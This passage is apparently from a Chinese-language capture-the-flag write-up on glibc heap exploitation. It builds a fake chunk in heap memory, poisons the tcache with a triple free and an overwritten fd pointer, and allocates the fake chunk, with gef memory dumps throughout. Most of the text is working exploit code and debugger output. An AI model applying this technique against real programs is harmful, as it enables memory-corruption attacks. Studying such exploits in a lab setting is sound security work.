 - exp输出内容与heap base对应

```bash
heap_base=> 0x555555b4c000
```

- 同时根据vmmap中输出的 基址 下断点 `b *0x00007fe6227aaf76` f76是IDA中查看到的 while循环开始的指令地址



- 接下来新申请两个chunk 利用这两个chunk的userdata部分 构造一个fake chunk，chunk size=0xa1。fake chunk的下一个chunk的size=0x21，下下个chunk的size=0x91

```python
add(1, 0x70, p64(0xdeadbeef012345) + p64(0xa1))
add(2, 0x70, b"a" * 0x20 + p64(0xdeadbeef) + p64(0x21) + b"b" * 0x18 + p64(0x91))
```

- 此时 heap chunks多了两个0x80size的chunk
- 查看第一个0x80chunk addr-0x10开始的内存: `x /30xg 0x555555b5dea0-0x10`

```assembly
heap chunks
Chunk(addr=0x555555b4c010, size=0x250, flags=PREV_INUSE)
    [0x0000555555b4c010     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x555555b4c260, size=0x11c10, flags=PREV_INUSE)
    [0x0000555555b4c260     00 1c 01 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x555555b5de70, size=0x30, flags=PREV_INUSE)
    [0x0000555555b5de70     61 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    a...............]
Chunk(addr=0x555555b5dea0, size=0x80, flags=PREV_INUSE)
    [0x0000555555b5dea0     45 23 01 ef be ad de 00 a1 00 00 00 00 00 00 00    E#..............]
Chunk(addr=0x555555b5df20, size=0x80, flags=PREV_INUSE)
    [0x0000555555b5df20     61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61    aaaaaaaaaaaaaaaa]
Chunk(addr=0x555555b5dfa0, size=0xf070, flags=PREV_INUSE)  ←  top chunk
gef > x /30xg 0x555555b5dea0-0x10 # 一个0x80chunk addr-0x10
0x555555b5de90: 0x0000000000000000      0x0000000000000081 # 1st chunk size=0x81
0x555555b5dea0: 0x00deadbeef012345      0x00000000000000a1 # |             |fake chunk size|
0x555555b5deb0: 0x0000000000000000      0x0000000000000000
0x555555b5dec0: 0x0000000000000000      0x0000000000000000
0x555555b5ded0: 0x0000000000000000      0x0000000000000000
0x555555b5dee0: 0x0000000000000000      0x0000000000000000
0x555555b5def0: 0x0000000000000000      0x0000000000000000
0x555555b5df00: 0x0000000000000000      0x0000000000000000
0x555555b5df10: 0x0000000000000000      0x0000000000000081 # 2nd chunk size=0x81
0x555555b5df20: 0x6161616161616161      0x6161616161616161
0x555555b5df30: 0x6161616161616161      0x6161616161616161
0x555555b5df40: 0x00000000deadbeef      0x0000000000000021 # chunk after fake chunk size=0x21
0x555555b5df50: 0x6262626262626262      0x6262626262626262
0x555555b5df60: 0x6262626262626262      0x0000000000000091 # chunk after after fake chunk size=0x91
0x555555b5df70: 0x0000000000000000      0x0000000000000000
```

-  0x555555b5deb0 - 0x555555b4c000 (heap base) = 0x11eb0 这个是fake chunk和heap base的offset


```python
delete(0)  # 最早free的在tcache链表的最末端
delete(0)
delete(0) # Tcachebins[idx=1, size=0x30] count=3 ← Chunk(addr=0x555555b5de70, size=0x30... 成环
# 把刚刚delete到tcache(0x30)的申请回来一个(和剩下在tcache(0x30)的chunk其实是同一个)
# 0x11eb0 计算方式: fake chunk的fd域的地址-heap基址 注意不是chunk的基址 是chunk user data的地址
add(3, 0x20, p64(heap_base + 0x11eb0))  # 将手上的chunk(也是tcache(0x30)的第一个chunk)的fd修改成heap_base+0x11eb0
# tcache(0x30)的entry指向的还是add(0, 0x20, "a")的那个chunk 但是fd域已经被修改了
add(4, 0x20, "ab")  # 再拿出一个，tcache(0x30)的entry就成了heap_base+0x11eb0
fake_chunk_addr = add(5, 0x20, "ff")  # 拿出的这个chunk就是刚刚构造的fake chunk(size=0xa1)
# 可以通过输出的gift上面这个add的chunk地址，然后查看: x /50xg addr-0x10 # 可以看到第二行末尾是0x00a1
print("fake chunk addr=>", hex(fake_chunk_addr))
```
